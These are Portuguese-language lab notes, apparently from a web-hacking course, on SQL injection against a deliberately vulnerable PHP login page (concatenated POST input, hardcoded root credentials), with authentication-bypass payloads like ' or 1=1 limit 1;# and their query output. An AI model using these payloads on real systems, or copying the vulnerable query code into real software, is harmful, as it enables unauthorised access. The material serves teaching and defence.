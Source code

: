 --> O objetivo é aprender a encontrar, explorar e manipular vulnerabilidades em bancos de dados

Nessa aula especificamente teremos controle sobre a aplicação e sobre o banco de dados

Das aulas passadas, já tínhamos construído uma base de dados chamada  `desec` na qual inserimos uma tabela de usuários com as colunas de login e senha:

```mysql
MariaDB [desec]> select * from usuarios;
+----+--------+-----------+
| id | login  | senha     |
+----+--------+-----------+
|  1 | admin  | admin     |
|  2 | catulo | 123       |
|  3 | axel   | 123456    |
|  4 | desec  | webmaster |
|  5 | web    | webmaster |
|  6 | admin  | master    |
+----+--------+-----------+
```

index.html
```html
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <title>Desec Security</title>
</head>
<body style="background-color:#1a1a1a; color:white;">
    <center>
        <h2>Login</h2>
        <form action="login.php" method="POST">
            Login: <input type="text" name="login"><br><br>
            Senha: <input type="password" name="senha"><br><br>
            <input type="submit" value="Entrar">
        </form>
    </center>
</body>
</html>
```

login.php
```php
<?php
// Exibir erros para debug
ini_set('display_errors', 1);
error_reporting(E_ALL);

// Verifica se o formulário foi enviado via POST
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    // Conexão com o banco de dados (modo vulnerável)
    $liga = mysqli_connect("localhost", "root", "root", "desec");
    if (!$liga) {
        die("Erro na conexão: " . mysqli_connect_error());
    }
    
    // Pegando dados diretamente (sem filtrar)
    $login = $_POST['login'];
    $senha = $_POST['senha'];
    
    // Consulta vulnerável
    $sql = "SELECT * FROM usuarios WHERE login='$login' AND senha='$senha'";
    $query = mysqli_query($liga, $sql);
    
    // Verifica se encontrou usuário
    if (mysqli_num_rows($query) == 1) {
        header("Location: admin.php");
        exit;
    } else {
        echo "<body style='background-color:#1a1a1a; color: white;'>";
        echo "<center><br><br><hr><h3 style='color:red;'>Login ou Senha Incorretos! =(</h3><hr></center>";
        echo "</body>";
    }
} else {
    // Se não foi POST, redireciona para a página de login
    header("Location: index.html");
    exit;
}
?>
```

admin.php
```php
<?php
echo "<body style='background-color:#1a1a1a'>";
echo "<span style='color:green;'>
        <center><br><br><hr><br>
        <h3>Bem vindo à área autenticada!</h3>
        <br><hr></center>
      </span>";
?>
```

Para iniciar os serviços, devemos:

-Banco de dados do MySQL: `service mysql start`
-Serviço do Apache: `service apache2 start` 
-Iniciar o servidor web local embutido no PHP: `php -S localhost:8000` 

A consulta feita na hora do login é a mesma feita diretamente no banco de dados

```mysql
MariaDB [desec]> select * from usuarios where login='catulo' and senha='123';
+----+--------+-------+
| id | login  | senha |
+----+--------+-------+
|  2 | catulo | 123   |
+----+--------+-------+
MariaDB [desec]> select * from usuarios where login='catulo' and senha='1234';
Empty set (0.001 sec)
```

O SQL Injection ocorre quando conseguimos manipular a informação no campo de login ou no campo de senha, para o caso em que a aplicação não esteja fazendo a validação da entrada do usuário.

O payload que usaremos de teste será justamente a entrada setada pelo usuário, mudando a lógica do programa:
```mysql
MariaDB [desec]> select * from usuarios where login='hacker' or 1=1;#' and senha='123';
+----+--------+-----------+
| id | login  | senha     |
+----+--------+-----------+
|  1 | admin  | admin     |
|  2 | catulo | 123       |
|  3 | axel   | 123456    |
|  4 | desec  | webmaster |
|  5 | web    | webmaster |
|  6 | admin  | master    |
+----+--------+-----------+
```

![](https://github.com/MrCat2357/web-hacking/blob/58763e094253e3b2a4e52fab063668f71ca86b72/imagens/parte%201/7%20Entendendo%20o%20SQL%20Injection/7%20img%201.png)
![](https://github.com/MrCat2357/web-hacking/blob/58763e094253e3b2a4e52fab063668f71ca86b72/imagens/parte%201/7%20Entendendo%20o%20SQL%20Injection/7%20img%202.png)
--> Veja que essa consulta faz que cheguemos à página de login incorreta, pois o banco de dados retorna todas as linhas da query. 
Faremos então a consulta limitando a resposta da consulta para apenas uma linha

```mysql
MariaDB [desec]> select * from usuarios where login='hacker' or 1=1 limit 1;#' and senha='123';
+----+-------+-------+
| id | login | senha |
+----+-------+-------+
|  1 | admin | admin |
+----+-------+-------+
```

![](https://github.com/MrCat2357/web-hacking/blob/58763e094253e3b2a4e52fab063668f71ca86b72/imagens/parte%201/7%20Entendendo%20o%20SQL%20Injection/7%20img%203.png)
![](https://github.com/MrCat2357/web-hacking/blob/58763e094253e3b2a4e52fab063668f71ca86b72/imagens/parte%201/7%20Entendendo%20o%20SQL%20Injection/7%20img%204.png)

Os parâmetros de identidade setados não precisam necessariamente ser 1=1. Podem ser algo do gênero 2=2, 3=3, etc.

Podemos pensar em alguns outros tipos de lógica, como a do AND por exemplo.

```mysql
MariaDB [desec]> select * from usuarios where login='qualquer' or 1=1 limit 1;#' and senha='123';
+----+-------+-------+
| id | login | senha |
+----+-------+-------+
|  1 | admin | admin |
+----+-------+-------+
```

```mysql
MariaDB [desec]> select * from usuarios where login='admin' and id=1;#' and senha='123';
+----+-------+-------+
| id | login | senha |
+----+-------+-------+
|  1 | admin | admin |
+----+-------+-------+
```

--> Supondo que o admin seria o usuario de id = 1

```mysql
MariaDB [desec]> select * from usuarios where login='admin' and login='admin' limit 1;#' and senha='123';
+----+-------+-------+
| id | login | senha |
+----+-------+-------+
|  1 | admin | admin |
+----+-------+-------+
```
